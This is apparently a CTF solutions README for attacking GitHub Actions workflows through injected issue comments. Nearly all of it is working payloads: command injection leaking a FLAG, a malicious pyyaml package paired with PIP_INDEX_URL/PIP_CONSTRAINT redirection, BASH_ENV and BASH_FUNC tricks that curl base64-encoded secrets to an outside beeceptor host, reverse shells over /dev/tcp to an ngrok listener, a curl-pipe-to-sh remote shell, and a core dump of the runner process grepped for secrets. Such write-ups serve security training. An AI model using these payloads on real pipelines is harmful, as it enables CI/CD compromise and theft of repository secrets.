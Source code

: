 <a id="readme-top"></a>
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#chall-1">Challenge 1</a>
    </li>
    <li>
      <a href="#chall-2">Challenge 2</a>
      <ul>
        <li><a href="#using-pip_index_url">Using PIP_INDEX_URL</a></li>
        <li><a href="#using-pip_constraint">Using PIP_CONSTRAINT</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-3">Challenge 3</a>
      <ul>
        <li><a href="#using-bash_env">Using BASH_ENV</a></li>
        <li><a href="#using-bash_func">Using BASH_FUNC</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-4">Challenge 4</a>
    </li>
    <li>
      <a href="#chall-5">Challenge 5</a>
    </li>
  </ol>
</details>

# Chall 1

Issue Comment:
``` bash
Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>






# Chall 2
### Using PIP_INDEX_URL
> [!NOTE]
> - [PIP environment variables doc](https://pip.pypa.io/en/latest/cli/pip_install/) PIP_<UPPER_LONG_NAME>
> - [Pypi PyYAML](https://pypi.org/project/PyYAML/)
> - [Cloudsmith](https://cloudsmith.io/~nebco/packages/)

_Below is how to setup the library to inject_
1. Install Python
2. Install PIP
```sh
pip install wheel
pip install setuptools
```
4. Create a new directory named pyyaml
5. Create a setup.py
```Python
from setuptools import setup, find_packages

setup(
    name='pyyaml',
    version='6.0.1',
    packages=find_packages(),
    install_requires=[],  # Si tu veux ajouter des dépendances
    entry_points={
        'console_scripts': [
            'yaml = yaml.main:main',  # yaml sera la commande qui déclenchera ton script
        ],
    },
)
```
6. Create a directory named `yaml`
7. Add `__INIT__` file in the directory named yaml and edit:
```Python
import os

print("COUCOU TDF3")
env_vars = os.environ
for key, value in env_vars.items():
    if key == "flag" or key == "FLAG":
        print("===== FLAG SPLIT =====")
        print(f'Part 1 (0-5): {value[0:5]}')
        print(f'Part 2 (5-100): {value[5:100]}')
```
8. Execute
``` sh
python setup.py bdist bdist_wheel
```

Issue Comment:
``` sh
Not a release :(
PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
```
> [!TIP]
> Alternatives to cloudsmith:
> - Host your own registry (local, AWS or other...)
> - Use github pages
>
> Sometimes indentation doesn't work when commenting an issue. It is therefore preferable to use `Github CLI` directly and push a file. `gh issue comment <id_issue> -F <file_name>`
<p align="right">(<a href="#readme-top">back to top</a>)</p>





### Using PIP_CONSTRAINT
> [!NOTE]
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

1. Go to BeeCeptor.com
2. add new `Mocking Rules`
``` md
Match value: /<file_name>.txt
Response body: pyyaml@https://tdf123456.free.beeceptor.com/${FLAG}%
```

Issue Comment:
``` bash
Not a release :(
PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/get-flag
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 3
### Using BASH_ENV
> [!NOTE]
> - [Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)
 
``` bash
Not a release :(
BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





### Using BASH_FUNC
``` bash
Not a release :(
BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
```
 <p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 4
## Setup (client side)
### Listen with NC

``` bash
nc -lv 4444
```
 
### Setup ngrok
 
``` bash
ngrok tcp 4444
```
 
### Get ngrok IP to build payload
 
``` bash
dig <NGROK_DNS>
```
 
## Payload
Body Issue Comment:
``` bash
$(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)
```
 
## Fancy shell for lazy DevOps :)
 
``` bash
curl -sSf https://sshx.io/get | sh -s run
```
 
## Let's investigate!
 
The directory `/home/runner/work/_temp` look interesting...
 <p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 5
 
### Listen with NC

``` bash
nc -lv 4444
```
 
### Setup ngrok
 
``` bash
ngrok tcp 4444
```
 
### Get ngrok IP to build payload
 
``` bash
dig <NGROK_DNS>
```
 
## Payload

Body Issue Comment:
``` bash
; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
```
 
## Fancy shell for lazy DevOps :)
 
``` bash
curl -sSf https://sshx.io/get | sh -s run
```
 
## Let's dump!
 
### Let's check those secrets
 
``` bash
sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>

 
